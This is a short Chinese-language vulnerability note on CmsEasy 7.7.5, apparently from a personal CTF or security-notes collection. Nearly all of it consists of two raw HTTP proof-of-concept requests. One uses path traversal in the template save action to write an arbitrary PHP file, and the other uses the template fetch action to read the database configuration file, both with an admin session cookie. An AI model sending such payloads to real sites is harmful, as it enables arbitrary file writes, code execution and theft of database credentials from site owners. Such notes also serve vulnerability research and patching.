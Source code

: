 ## CmsEasy_7.7.5_20211012

**参考文章**

[CmsEasy_7.7.5_20211012存在任意文件写入和任意文件读取漏洞 _ jdr](F:\LocalCTF\CmsEasy_7.7.5_20211012存在任意文件写入和任意文件读取漏洞 _ jdr.html)

### 任意文件写入漏洞poc

```http
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.31.96
Content-Length: 57
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded;
Cookie: login_username=admin; login_password=357fce333f91905f3e7342d10e5a5ce4;
Connection: close

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php phpinfo();?>
```

### 任意文件读取漏洞poc

```http
POST /index.php?case=template&act=fetch&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.31.96
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded;
Cookie: login_username=admin; login_password=357fce333f91905f3e7342d10e5a5ce4; 
Connection: close
Content-Length: 32

id=#data_d_.._d_.._d_.._d_config_d_config_database.php
```

